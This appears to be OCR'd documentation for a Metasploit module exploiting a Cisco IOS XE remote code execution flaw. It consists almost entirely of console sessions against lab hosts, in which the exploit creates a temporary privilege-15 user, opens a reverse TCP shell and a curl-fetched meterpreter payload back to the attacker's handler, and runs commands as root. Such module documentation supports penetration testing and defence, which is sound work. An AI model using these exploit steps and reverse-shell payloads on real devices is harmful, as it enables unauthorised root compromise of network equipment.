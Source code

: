 ```
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'VltpvRrx' with password 'KDJGXORf'
[*] Removing user 'VltpvRrx'
[*] Sending stage (38 bytes) to 192.168.86.113
[*] Command shell session 6 opened (192.168.86.122:4444 -> 192.168.86.113:56736) at 2025-03-03 20:32:52 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux testc100v 4.19.106 #1 SMP Fri Oct 2 17:55:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.113 - Command shell session 6 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```

### Linux Command (IOS XE 16.12.3)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set RHOSTS 192.168.86.114
RHOSTS => 192.168.86.114
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options 

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.114   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FETCH_COMMAND   CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE    false            yes       Attempt to delete the binary after execution
   FETCH_FILELESS  false            yes       Attempt to run payload without touching disk, Linux ≥3.17 only
   FETCH_SRVHOST                    no        Local IP to use for serving payload
   FETCH_SRVPORT   8080             yes       Local port to use for serving payload
```
